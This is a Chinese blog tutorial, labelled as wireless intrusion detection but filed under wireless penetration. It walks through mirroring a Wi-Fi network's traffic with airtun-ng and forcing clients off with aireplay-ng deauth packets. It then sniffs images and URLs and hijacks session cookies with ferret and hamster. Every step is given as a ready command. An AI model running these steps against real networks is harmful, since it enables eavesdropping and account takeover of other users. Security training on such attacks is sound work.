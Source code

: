 ```yaml
---
title: "wIDS无线入侵检测"
date: 2020-04-27 20:46:37
categories: 无线渗透
tags: Aircrack-ng套件
---
```


##### 一 、原理粗谈

使用 Airtun-NG 将无线热点下的所有流量镜像到一个虚拟接口下，监听此虚拟接口便可嗅探数据包，发现敏感信息。

##### 二 、创建虚拟接口

1. 开启网卡

   `ifconfig wlan0 up`

2. 开启网卡监听模式

   `airmon-ng start wlan0`

   <!--more-->

3. 创建虚拟接口

   

   ```
   airtun-ng -a B4:C4:FC:65:77:50 -p 88888888 -e test wlan0mon
   ```

   

   <img src="http://qn.laohuan.xin/Snipaste_2019-09-27_20-58-19.png">

   * -a：bssid
   * -p：wifi密码
   * -e：wifi名字

   由上图知，此时已经创建一个名叫"at0"的虚拟接口。

4. 开启此虚拟接口

   `ifconfig at0 up`

##### 三 、抓取握手包

发送deauth包让客户端断开重连，方便我们抓取到握手包

```
aireplay-ng -0 15 -a <bssid> -c <客户端mac地址> <监听模式的网卡>
```

![](http://qn.laohuan.xin/2020/4/27Snipaste_2019-09-27_21-00-15.png)

当出现WPA handshake 表示已经抓取到握手包

![](http://qn.laohuan.xin/2020/4/27Snipaste_2019-09-27_21-01-23.png)



##### 四、抓包嗅探

1. 此时所有流量都会被镜像到at0接口，我们对at0接口进行抓包

![](http://qn.laohuan.xin/2020/4/27Snipaste_2019-09-27_21-03-33.png)

可看到此热点下的所有数据包

![](http://qn.laohuan.xin/2020/4/27Snipaste_2019-09-27_21-04-28-1024x277.png)

2. 嗅探图片

   ```
   driftnet -i at0 -a -d /root/图片/
   ```

   

3. 嗅探URL

   `urlsnarf -i at0`

   ![](http://qn.laohuan.xin/2020/4/27Snipaste_2019-09-27_21-17-11.png)

4. 抓取cookie

   将wireshark抓到的数据包保存后缀为pcap的格式，使用ferret解包

   ```
ferret -r test.pcap
   ```

   ![](http://qn.laohuan.xin/2020/4/27Snipaste_2019-09-27_21-26-37.png)

   打开hamster，监听在本地的1234端口

   ![](http://qn.laohuan.xin/2020/4/27Snipaste_2019-09-27_21-27-44.png)

   浏览器设置好代理 127.0.0.1:1234

   地址栏输入hamster
   
   ![](http://qn.laohuan.xin/2020/4/27Snipaste_2019-09-27_21-30-08-1024x489.png)